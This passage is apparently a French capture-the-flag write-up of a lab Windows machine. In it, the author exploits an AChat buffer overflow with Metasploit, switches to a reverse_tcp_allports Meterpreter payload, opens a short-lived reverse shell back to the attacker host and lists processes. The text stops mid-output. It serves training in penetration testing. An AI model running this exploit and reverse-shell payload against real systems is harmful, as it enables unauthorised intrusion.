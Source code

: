 ### Exploit

On voit un service "AChat" (inconnu au bataillon): ça a l'air de répondre à du http, je tente d'aller dessus avec mon brave firefox mais... rien.

Un searchsploit sur AChat montre un buffer overflow possible sur une des versions. Pourquoi pas !
Un module metasploit semble exister, mais il n'est pas très coopératif à première vue:

```bash
[-] Exploit failed: windows/meterpreter/reverse_tcp: All encoders failed to encode.
[*] Exploit completed, but no session was created.
```

Une petite recherche me permet de voir que le souci n'apparait plus en changeant le type de payload:

```bash
set payload windows/meterpreter/reverse_tcp_allports
```

Et effectivement j'obtiens bien une connexion mais... elle meurt quelques secondes après. Tristesse.

```bash
msf6 exploit(windows/misc/achat_bof) > exploit

[*] Started reverse TCP handler on 10.10.16.13:1 
[*] Sending stage (175686 bytes) to 10.10.10.74
[*] Meterpreter session 2 opened (10.10.16.13:1 -> 10.10.10.74:49159) at 2023-09-07 21:04:15 +0200

meterpreter > shell
Process 2488 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
[*] 10.10.10.74 - Meterpreter session 2 closed.  Reason: Died
```

Je re-tente l'exploit, juste le temps de lancer une commande "ps":

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name            Arch  Session  User               Path
 ---   ----  ----            ----  -------  ----               ----
 0     0     [System Proces
             s]
 4     0     System
 212   3860  CompatTelRunne
             r.exe
 232   4     smss.exe
 288   576   rundll32.exe    x86   1        CHATTERBOX\Alfred  C:\Windows\system32\rundll32.ex
                                                               e
 312   304   csrss.exe
 352   304   wininit.exe
 364   344   csrss.exe
 420   344   winlogon.exe
 456   352   services.exe
 464   352   lsass.exe
 472   352   lsm.exe
 576   456   svchost.exe
 592   920   wuauclt.exe     x86   1        CHATTERBOX\Alfred  C:\Windows\system32\wuauclt.exe
 640   456   vm3dservice.ex
```